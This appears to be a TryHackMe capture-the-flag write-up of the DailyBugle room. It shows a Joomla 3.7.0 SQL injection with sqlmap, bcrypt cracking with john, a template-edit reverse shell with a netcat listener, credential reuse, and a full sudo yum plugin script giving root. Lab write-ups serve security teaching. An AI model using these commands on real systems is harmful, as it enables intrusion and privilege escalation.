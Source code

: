 ```yaml
---
description: DailyBugle box from TryHackMe! write up.
---
```


# DailyBugle

[Link to the room](https://tryhackme.com/room/dailybugle)

## Let's start

The first question is about who robbed the bank, the answer is in the first article of the webpage: `spiderman` lul.

Next the Joomla version, i just checked `/administrator/manifests/files/joomla.xml` to get that the version being used is `3.7.0`. Looking it in `searchsploit` looks like we can work with that:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit joomla 3.7.0          
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

According with the exploit information is a blind sql injection. Lets use `sqlmap` then as it is described:

```
sqlmap -u "http://<MACHINE_IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
After a while i was tired of waiting and used this https://github.com/stefanlucas/Exploit-Joomla and got the admin credentials:
```
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''] 
```

To check the hash type i used `hashid`:
```
┌──(kali㉿kali)-[~]
└─$ hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
I could have used `hashcat` with the `-m 3200` parameter but i ended up using `john --wordlist=/home/kali/rockyou.txt hashes.txt` and after a while i got the password: `spiderman123` cool.

## Getting access

Now i can login to the admin page but what i really want is a reverse shell. If i go to templates and click in one of the available one to edit the `index.php` file (Url of the file i edited: http://<MACHINE_IP>/administrator/index.php?option=com_templates&view=template&id=503&file=aG9tZQ==) with a reverse shell. Now setting up `netcat`: `nc -lnvp 8080` and visiting http://<MACHINE_IP>/templates/beez3/ gave me a shell nice.

## Privesc to user

Now we need to get privs, i ran `linpeas` and some maunal enumeration and got some interesting things:
```
[+] Checking sudo tokens
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#reusing-sudo-tokens
/proc/sys/kernel/yama/ptrace_scope is enabled (0)

[+] Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash

[+] Files with capabilities (limited to 50):
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep

[+] Unexpected in root
/.autorelabel

[+] Mails (limit 50)
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/mail/jjameson
9244504    0 -rw-rw----   1 jjameson mail            0 Dec 14  2019 /var/spool/mail/jjameson

bash-4.2$ hostnamectl
   Static hostname: dailybugle
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 4fc91dda78404e5d84ba62e3cbe3a722
           Boot ID: e823ad0ff3564c759435c805bf34f7b2
    Virtualization: xen
  Operating System: CentOS Linux 7 (Core)
       CPE OS Name: cpe:/o:centos:centos:7
            Kernel: Linux 3.10.0-1062.el7.x86_64
      Architecture: x86-64

```

But what was really helpful was the `/var/www/html/configuration.php` file and this database related variables:
```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';
public $live_site = '';
public $secret = 'UAMBRWzHO3oFPmVC';
```

I tried that password with the `jjameson` user and it worked yey. So now we have the user credentials: `jjameson:nv5uz9r3ZEDzVjNu` and we can get the flag:
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
**********************
```

## Privesc to root

Well the first thing i tried was `sudo -l` and got something funny:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
So i can use `yum` as `sudo`. According with https://gtfobins.github.io/gtfobins/yum/ that is exploitable so i tried the custom plugin method:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
After executing that i got a root shell and was able to get the flag:
```
sh-4.2# cat /root/root.txt 
**********************
```
